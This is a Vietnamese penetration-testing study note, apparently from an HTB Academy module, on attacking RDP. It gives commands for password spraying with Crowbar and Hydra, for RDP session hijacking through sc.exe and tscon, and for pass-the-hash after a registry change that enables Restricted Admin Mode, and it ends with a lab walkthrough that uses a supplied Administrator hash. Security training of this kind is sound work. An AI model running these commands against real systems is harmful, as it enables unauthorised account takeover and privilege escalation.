



# Tấn công RDP (Attacking RDP) — Tóm tắt đầy đủ

## Tổng quan

**RDP (Remote Desktop Protocol)** là giao thức độc quyền của Microsoft, cung cấp giao diện đồ họa để kết nối và điều khiển máy tính từ xa qua mạng. RDP là một trong những công cụ quản trị phổ biến nhất, cho phép quản trị viên điều khiển hệ thống từ xa như đang ngồi tại chỗ. Tuy nhiên, điều này cũng tạo ra **một cổng tấn công** cho kẻ xấu.

**Cổng mặc định:** TCP/3389

### Phát hiện dịch vụ RDP bằng Nmap

```bash
nmap -Pn -p3389 192.168.2.143
```

---

## 1. Cấu hình sai (Misconfigurations)

### Password Spraying

RDP yêu cầu credential để xác thực nên vector tấn công phổ biến là **dò mật khẩu**. Cần lưu ý chính sách mật khẩu của Windows — tài khoản có thể bị khóa sau một số lần đăng nhập sai.

**Password Spraying** — thử một mật khẩu cho nhiều username trước khi chuyển sang mật khẩu khác, tránh khóa tài khoản.

#### Crowbar

https://github.com/galkan/crowbar

```bash
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

| Tùy chọn | Mô tả |
|-----------|-------|
| `-b rdp` | Giao thức mục tiêu |
| `-s` | IP mục tiêu |
| `-U` | File danh sách username |
| `-c` | Mật khẩu thử |

#### Hydra

```bash
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

> **Lưu ý:** RDP server không thích nhiều kết nối song song. Nên dùng `-t 1` hoặc `-t 4` để giảm kết nối, và `-W 1` hoặc `-W 3` để chờ giữa các kết nối.

### Kết nối RDP sau khi có credential

```bash
# rdesktop
rdesktop -u admin -p password123 192.168.2.143

# xfreerdp
xfreerdp /v:192.168.2.143 /u:admin /p:password123
```

---

## 2. Tấn công theo giao thức (Protocol Specific Attacks)

### 2.1. RDP Session Hijacking (Chiếm phiên RDP)

Khi đã có quyền **local administrator** trên máy bị xâm nhập và có người dùng khác đang kết nối RDP, ta có thể **chiếm phiên RDP** của họ để leo thang đặc quyền hoặc mạo danh tài khoản. Trong môi trường Active Directory, điều này có thể dẫn đến chiếm tài khoản Domain Admin.

#### Quy trình thực hiện

**Bước 1 — Liệt kê phiên người dùng:**

```cmd
query user
```



Kết quả cho thấy session ID và session name của từng người dùng.

**Bước 2 — Tạo Windows service để có quyền SYSTEM:**

Cần quyền SYSTEM để mạo danh người dùng mà không cần mật khẩu. Dùng `tscon.exe` (công cụ Microsoft) để kết nối vào phiên desktop khác.

```cmd
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```



| Thành phần | Mô tả |
|------------|-------|
| `sessionhijack` | Tên service tạo mới |
| `tscon 2` | Kết nối đến session ID 2 (của người dùng mục tiêu) |
| `/dest:rdp-tcp#13` | Tên session hiện tại của ta |

**Bước 3 — Khởi động service:**

```cmd
net start sessionhijack
```

Kết quả: một terminal mới xuất hiện với phiên của người dùng mục tiêu, ta có toàn quyền của người dùng đó.

> **Lưu ý:** Phương pháp này **không còn hoạt động trên Windows Server 2019**.

---

### 2.2. RDP Pass-the-Hash (PtH)

Trong kiểm thử xâm nhập, đôi khi ta chỉ có **NT hash** của người dùng (từ dump SAM database) mà không crack được mật khẩu plaintext. Trong trường hợp đó, có thể thực hiện **RDP PtH** để truy cập GUI bằng công cụ `xfreerdp`.

#### Điều kiện cần

**Restricted Admin Mode** phải được bật trên máy mục tiêu (mặc định bị tắt). Bật bằng cách thêm registry key:

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```



| Chi tiết | Giá trị |
|----------|---------|
| Đường dẫn Registry | `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` |
| Tên key | `DisableRestrictedAdmin` |
| Loại | `REG_DWORD` |
| Giá trị | `0x0` (bật Restricted Admin Mode) |

#### Thực hiện PtH qua RDP

```bash
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

| Tùy chọn | Mô tả |
|-----------|-------|
| `/v:` | IP máy mục tiêu |
| `/u:` | Username |
| `/pth:` | NT hash thay cho mật khẩu |

Nếu thành công → đăng nhập RDP với tư cách người dùng mục tiêu mà không cần biết mật khẩu plaintext.

> **Lưu ý:** Không hoạt động trên mọi hệ thống Windows, nhưng luôn đáng thử khi có NTLM hash và biết người dùng có quyền RDP.

---

## Tóm tắt các phương pháp tấn công RDP

| Phương pháp | Công cụ | Mục đích | Điều kiện |
|-------------|---------|----------|-----------|
| **Enumeration** | Nmap | Phát hiện dịch vụ RDP trên cổng 3389 | — |
| **Password Spraying** | Crowbar, Hydra | Dò mật khẩu, tránh khóa tài khoản | Danh sách username |
| **Kết nối RDP** | rdesktop, xfreerdp | Truy cập GUI từ xa | Credential hợp lệ |
| **Session Hijacking** | tscon.exe, sc.exe | Chiếm phiên RDP người dùng khác, leo thang đặc quyền | Quyền local admin + SYSTEM, không hoạt động trên Server 2019 |
| **Pass-the-Hash** | xfreerdp (`/pth:`) | Đăng nhập RDP bằng NT hash thay vì mật khẩu | Restricted Admin Mode phải được bật |

---

RDP to 10.129.203.13 (ACADEMY-ATTCOMSVC-WIN-01), with user "htb-rdp" and password "HTBRocks!"

```bash
┌──(duongn15㉿duongn15)-[~/Desktop]
└─$ rdesktop -u htb-rdp -p HTBRocks! 10.129.203.13
```

Truy cập thành công Windows với user `htb-rdp` ta thấy file `pentest-notes.txt` và có thông tin:

```
We found a hash from another machine Administrator account, we tried the hash in this computer but it didn't work, it doesn't have SMB or WinRM open, RDP Pass the Hash is not working.

User: Administrator
Hash: 0E14B9D6330BF16C30B1924111104824
```

Dùng cmd và chạy lệnh

```
C:\Users\htb-rdp>reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f     The operation completed successfully.  
```

Quay lại máy kali và kết nối admin: 

```bash
┌──(duongn15㉿duongn15)-[~/Desktop]
└─$ xfreerdp /v:10.129.203.13 /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824
```

